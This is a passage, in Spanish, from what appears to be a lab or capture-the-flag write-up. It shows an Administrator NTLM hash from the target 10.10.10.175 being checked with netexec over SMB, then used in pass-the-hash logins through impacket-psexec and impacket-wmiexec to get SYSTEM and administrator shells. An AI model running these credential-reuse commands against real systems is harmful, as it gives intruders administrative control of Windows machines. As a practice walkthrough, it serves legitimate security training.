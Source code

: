 Vemos el hash NTLM de Administrator. Vamos a validarlo.

``netexec smb 10.10.10.175 -u 'Administrator' -H ':823452073d75b9d1cf70ebdf86c7f98e'``
![46](Images/46.png)

Bingo. Tenemos pwn3d, por lo que podemos conectarnos como NtAuthority\System (``psexec``) o como administrator (``wmiexec``).

``impacket-psexec Administrator@10.10.10.175 -hashes ':823452073d75b9d1cf70ebdf86c7f98e'``
![47](Images/47.png)


``impacket-wmiexec Administrator@10.10.10.175 -hashes ':823452073d75b9d1cf70ebdf86c7f98e'``